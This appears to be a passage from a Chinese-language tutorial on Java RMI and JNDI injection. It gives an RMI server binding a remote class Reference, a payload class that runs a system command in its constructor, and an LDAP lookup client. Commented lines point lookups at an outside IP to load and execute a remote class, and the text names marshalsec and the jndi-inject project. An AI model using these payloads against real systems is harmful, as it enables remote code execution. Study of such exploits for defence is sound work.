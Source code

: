 客户端通过获得的代理对象调用远程对象的方法。

Server端的代理接收到Client端调用的方法，参数，Server端执行相对应的方法：

在服务器端，RMI 框架接收到客户端调用的方法、参数等信息，并通过相应的远程对象执行对应的方法。

Server端的代理将执行结果返回给Client端代理：

执行结果将通过 RMI 框架返回给客户端的代理对象，使客户端能够获取到远程方法的执行结果。

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Reference;
import java.rmi.server.ReferenceWrapper;
 
public class RMIServer {
 
    public static void main(String[] args) throws Exception {
        // 创建 RMI 注册表并监听在 1099 端口上
        Registry registry = LocateRegistry.createRegistry(1099);
 
        **// 创建一个包含类信息的 Reference 对象
        // className: 远程加载时所使用的类名
        // classFactory: 加载的类中需要实例化的类的名称
        // classFactoryLocation: 远程加载类的地址，提供 classes 数据的地址可以是 file/ftp/http 等协议
        Reference reference = new Reference("Calc", "Calc", "http://localhost/");**
 
        // 使用 Reference 对象创建 ReferenceWrapper 对象
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
 
        // 将包装后的 Reference 对象绑定到 RMI 注册表上，使用名字 "calc"
        registry.bind("calc", wrapper);
    }
}
```

```java
import java.lang.Runtime;
 
public class Calc {
    public Calc() throws Exception{
        Runtime.getRuntime().exec("mstsc");
    }
}
```

**ldap总代码及总结**

```java
import javax.naming.InitialContext;
 
public class ldap {
    public static void main(String[] args) throws Exception{
 
        //1.jndi - rmi ldap服务
        //2.rmi ldap 都可以进行远程调用对象 可以远程执行java代码class文件
        //3.攻击利用中就用到了jndi-inject项目和marshalsec
        //3.1发现 jdk高版本会影响rmi和ldap的利用（marshalsec针对ldap有高版本绕过方法）
        //4.1 利用要知道其他类也能调用jndi注入（rmi,ldap）
 
        //创建一个rmi ldap等服务调用 实例化对象
        //new InitialContext().lookup("rmi://47.94.236.117:1099/Test");
        //调用rmi ldap等服务对象类（远程服务）
        //ldap://47.94.236.117:1389/nx5qkh =  远程地址的一个class文件被执行
        //ini.lookup("ldap://47.94.236.117:1389/nx5qkh");
 
        //new InitialContext().lookup("ldap://localhost:1389/Calc");
```